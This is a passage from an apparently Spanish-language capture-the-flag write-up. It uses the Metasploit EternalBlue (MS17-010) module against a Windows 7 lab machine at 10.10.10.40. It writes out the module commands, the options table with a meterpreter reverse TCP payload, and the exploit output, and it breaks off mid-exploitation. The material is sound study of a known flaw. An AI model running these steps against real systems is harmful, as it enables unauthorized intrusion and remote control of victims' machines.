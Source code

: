 Excelente, nos menciona que si es probablemente vulnerable, entonces usemos el modulo del Exploit:
```bash
use exploit/windows/smb/ms17_010_eternalblue
```

Veamos las opciones:
```bash
show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     X.X.X.X  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target
```

Igual, necesitamos la IP de la máquina víctima, el usuario y recuerda verificar tu IP:
```bash
set RHOSTS 10.10.10.40
.
set SMBUser guest
```
Y ejecutamos el modulo:
```bash
exploit
.
[*] Started reverse TCP handler on X.X.X.X:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
[+] 10.10.10.40:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.10.40:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.10.40:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.10.40:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.10.40:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.10.40:445 - Target arch selected valid for arch indicated by DCE/RPC reply
```
